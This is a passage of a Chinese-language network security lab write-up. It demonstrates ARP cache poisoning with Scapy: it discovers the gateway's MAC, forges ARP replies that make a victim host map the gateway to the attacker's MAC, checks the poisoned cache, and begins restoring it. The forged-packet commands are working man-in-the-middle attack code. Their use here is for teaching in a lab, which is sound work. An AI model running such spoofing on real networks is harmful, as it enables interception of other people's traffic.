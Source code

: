 将这个 ARP 广播请求发送至网关：

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

伪造网关的 ARP 响应包，发送给受害者主机，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址：

- `psrc`是我们要欺骗的地址，`pdst`是 ARP 数据包的目的地址

```shell
# 伪造网关的 ARP 响应包
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst="08:00:27:17:f4:08")

# 发送上述伪造的 ARP 响应数据包到受害者主机
# 将课件上的 sendp 修改为 send
send(arpspoofed)
```

此时在**受害者主机**上查看 ARP 缓存，会发现网关的 MAC 地址已被`「替换」`为攻击者主机的 MAC 地址：

- 各个状态的意义如下：
  
  - `REACHABLE` ：链路地址可达
  
  - `STALE` ：链路地址缓存失效，但并不意味不可达
  
  - `DELAY` ：探测开始之间的延迟

```shell
# 查看 ARP 缓存
ip neigh
```

![](./img/受害者主机MAC地址被替换.jpg)

在**攻击者主机**上执行如下指令，恢复受害者主机的 ARP 缓存记录

- **伪装网关**给受害者发送 ARP 响应：
  
  ```shell
  #网关作为要欺骗的地址，受害者主机作为ARP数据包的目的地址
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:3d:5c:d1", pdst="172.16.111.112", hwdst="08:00:27:12:c3:08")
  sendp(restorepkt1, count=10, inter=0.2)
  ```
  